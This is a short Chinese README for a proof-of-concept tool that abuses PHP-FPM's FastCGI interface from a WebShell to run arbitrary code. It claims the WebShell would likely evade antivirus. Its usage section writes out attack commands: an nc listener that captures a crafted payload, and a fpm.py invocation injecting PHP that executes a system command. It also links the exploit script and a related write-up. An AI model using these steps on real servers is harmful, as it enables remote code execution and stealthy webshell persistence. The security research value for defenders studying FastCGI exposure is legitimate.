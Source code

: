 # 用WebShell攻击PHP-FPM

来自[@Medicean](https://github.com/Medicean) 大佬的文末一个想法 https://mp.weixin.qq.com/s/T_k_TVv6h7W8paZyHym-sw

快速实现了一个poc，可以实现任意代码执行

后续用单文件PHP实现一个Fastcgi Client，然后已知PHP文件就用WebShell自身，没有什么骚操作的话WebShell应该就是免杀的

## 使用

测试 php7.3-fpm，在TCP模式和本地socket都可以运行

```
echo "<?php echo 1; ?>" > /tmp/poc.php

nc -lvp 6666 > payload.txt

python fpm.py -c '<?php echo `id`; exit;?>' -p 6666 127.0.0.1 /tmp/poc.php
```

运行`poc.php`

```
php poc.php
```

![](poc.png)

## 参考

fpm.py 来自 https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)